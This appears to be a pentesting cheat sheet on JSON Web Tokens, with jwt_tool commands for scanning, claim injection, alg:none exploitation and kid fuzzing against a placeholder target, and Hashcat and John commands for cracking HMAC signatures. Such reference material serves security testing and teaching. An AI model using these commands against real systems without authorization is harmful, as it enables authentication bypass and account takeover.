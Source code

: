 ```yaml
---
title: Json Web Token (JWT) Pentesting
desc:
tags: [Cryptography, Hashcat, JSON, JWT, Token, Web]
alts: []
render_with_liquid: false
---
```


## 1. Decode JWT

1. **Use Online Tools**

    - **[JWT.io](https://jwt.io/){:target="_blank"}**

        JWT Decoder and Encoder.

2. **Use JWT Toolkit**

    **[JWT Toolkit](https://github.com/ticarpi/jwt_tool){:target="_blank"}** is a toolkit for testing, tweaking and cracking JWT.

    ```sh
    python jwt_tool.py <Base64_Encoded_JWT>
    ```

## 1. Automation

1. **Use JWT Toolkit**

    1. **Scan**

        ```sh
        # -t: Target URL
        # -rc: Cookies
        # -M pb: Playbook Scan Mode
        # -cv: Canary Value
        python jwt_tool.py -t https://vulnerable.com/admin -rc "jwt=<Base64_Encoded_JWT>;anothercookie=test" -M pb -cv "not authorized"
        ```

    2. **Exploit**

        ```sh
        # -X i: Exploit (inject inline)
        # -I -pc username -pv admin: Inject Claim ("username": admin)
        python jwt_tool.py -t https://vulnerable.com/admin -rc "jwt=<Base64_Encoded_JWT>;anothercookie=test" -X i -I -pc username -pv admin
        ```

    3. **Fuzzing**

        ```sh
        # -I -hc kid -hv wordlist.txt: Inject Claim ("kid": FUZZ)
        python jwt_tool.py -t https://vulnerable.com/admin -rc "jwt=<Base64_Encoded_JWT>;anothercookie=test" -I -hc kid -hv wordlist.txt
        ```

## 2. Manual Pentesting

1. **Use JWT Toolkit**

    ```sh
    # Tamper (Manual Exploit)
    python jwt_tool.py <Base64_Encoded_JWT> -T

    # Exploit (Automated Exploit)
    # -X a: Exploit (alg: none)
    python jwt_tool.py <Base64_Encoded_JWT> -X a
    ```

<br />

## 2. Crack JWT Signature

First of all, you need to put the JWT into the text file.

```sh
echo -n '<Base64_Encoded_JWT>' > jwt.txt
```

Then crack the hash using John the Ripper or Hashcat.

```sh
john --format=HMAC-SHA256 --wordlist=/usr/share/wordlists/rockyou.txt jwt.txt

hashcat -a 0 -m 16500 jwt.txt passwords.txt
hashcat -a 0 -m 16500 jwt.txt passwords.txt -r rules/best64.rule
hashcat -a 3 -m 16500 jwt.txt '?u?l?l?l?l?l?l?l' -i --increment-min=6
```
